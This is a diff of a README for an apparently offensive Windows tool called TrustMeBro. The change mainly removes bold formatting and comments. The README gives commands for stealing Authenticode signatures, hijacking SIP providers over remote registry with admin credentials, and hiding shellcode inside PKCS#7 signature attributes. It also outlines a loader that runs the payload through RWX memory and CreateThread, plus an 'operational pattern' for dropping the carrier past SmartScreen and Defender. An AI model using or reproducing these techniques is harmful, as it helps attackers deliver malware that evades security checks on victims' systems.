

Before and after one commit to KriyosArcane/TrustMeBro, a Markdown page: README.md, the part around one of its changes. Shown at 81% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -172,36 +171,27 @@ TrustMeBro.exe --embed payload.bin signed.exe output.exe --oid 1.3.6.1.4.1.55555
 
 ### Python Version (Cross-Platform)
 
-**Requirements:** Python 3.10+, `asn1crypto` (for embed/extract), `objcopy` (for metadata cloning)
+Requirements: Python 3.10+, `asn1crypto` (for embed/extract), `objcopy` (for metadata cloning)
 
 ```bash
 pip install asn1crypto    # only needed for embed/extract
 ```
 
-**Signature Stealing:**
+Signature Stealing:
 ```bash
-# Steal signature
 python3 TrustMeBro.py steal -s explorer.exe -t agent.exe
-
-# Steal + Clone Metadata
 python3 TrustMeBro.py steal -s explorer.exe -t agent.exe --clone
 ```
 
-**SIP Hijacking (Remote Registry via Impacket):**
+SIP Hijacking (Remote Registry via Impacket):
 ```bash
-# Hijack
 python3 TrustMeBro.py hijack 192.168.1.10 -u Administrator -p Password123
-
-# Restore
 python3 TrustMeBro.py hijack 192.168.1.10 -u Administrator -p Password123 --action clean
 ```
 
-**PKCS#7 Payload Embedding:**
+PKCS#7 Payload Embedding:
 ```bash
-# Embed
 python3 TrustMeBro.py embed -s signed.exe -p payload.bin -o output.exe
-
-# Extract
 python3 TrustMeBro.py extract -s output.exe -o recovered.bin
 
 # Camouflage mode
@@ -216,13 +206,13 @@ python3 TrustMeBro.py embed -s signed.exe -p payload.bin -o output.exe --oid 1.3
 
 ### SigStash Loader (Demo)
 
-The `SigStash/loader.cpp` is a demo extraction stub that reads a carrier PE and extracts the embedded payload. Use it as a reference for building your own loader.
+`SigStash/loader.cpp` is a demo extraction stub. Reads a carrier PE and extracts the embedded payload. Use it as a reference for building your own loader.
 
 ```cmd
 :: Extract and display payload
 SigStashLoader.exe carrier.exe
 
-:: Extract from camouflage mode
+:: Camouflage mode
 SigStashLoader.exe carrier.exe --camouflage
 
 :: Self-extract (loader reads its own PE)
@@ -232,9 +222,9 @@ SigStashLoader.exe SigStashLoader.exe
 SigStashLoader.exe carrier.exe --exec
 ```
 
-**Operational pattern:**
+Operational pattern:
 ```
-1. Pick a legitimately signed PE from the target (e.g., C:\Windows\System32\mspaint.exe)
+1. Pick a legitimately signed PE from the target (e.g. C:\Windows\System32\mspaint.exe)
 2. Embed your payload:
      TrustMeBro.exe --embed shellcode.bin mspaint.exe carrier.exe --camouflage
 3. Drop carrier.exe on target (passes SmartScreen, Defender, signature checks)
@@ -242,26 +232,22 @@ SigStashLoader.exe carrier.exe --exec
 5. No unsigned files on disk. No separate payload file. No download needed.
 ```
 
-**Building a custom loader:**
+#### Building a custom loader
 
-The key function is just TLV walking — find the OID in `unsignedAttrs`, grab the `OCTET STRING` content. Here's the minimal pattern in C:
+The core is TLV walking. Find the OID in `unsignedAttrs`, read the `OCTET STRING` content.
 
 ```c
-// Minimal self-extracting loader (conceptual — see loader.cpp for full implementation)
-#include <windows.h>
-#include <stdio.h>
+// Minimal self-extracting loader (see SigStash/loader.cpp for full code)
 
 // 1. Read your own PE: GetModuleFileName + ReadFile
 // 2. Find WIN_CERTIFICATE via DataDirectory[4] (file offset, NOT RVA)
 // 3. Skip 8-byte WIN_CERTIFICATE header to get PKCS#7 DER
-// 4. Walk ASN.1 TLVs: ContentInfo → SignedData → signerInfos[0] → unsignedAttrs
-// 5. Match your OID, read the SET → OCTET STRING content
+// 4. Walk ASN.1 TLVs: ContentInfo -> SignedData -> signerInfos[0] -> unsignedAttrs
+// 5. Match your OID, read the SET -> OCTET STRING content
 // 6. VirtualAlloc(RWX) + memcpy + CreateThread
-
-// See SigStash/loader.cpp for the complete working implementation
 ```
 
-For camouflage mode, add one more layer: after finding the `SPC_NESTED_SIGNATURE` attribute, parse the inner `ContentInfo → SignedData → encapContentInfo.content` to get the actual payload.
+For camouflage mode, add one more parsing layer. After finding the `SPC_NESTED_SIGNATURE` attribute, parse the inner `ContentInfo -> SignedData -> encapContentInfo.content` to get the payload.
 
 ---
 
````
Also changed, not shown: other parts of README.md (+59 -63 lines).
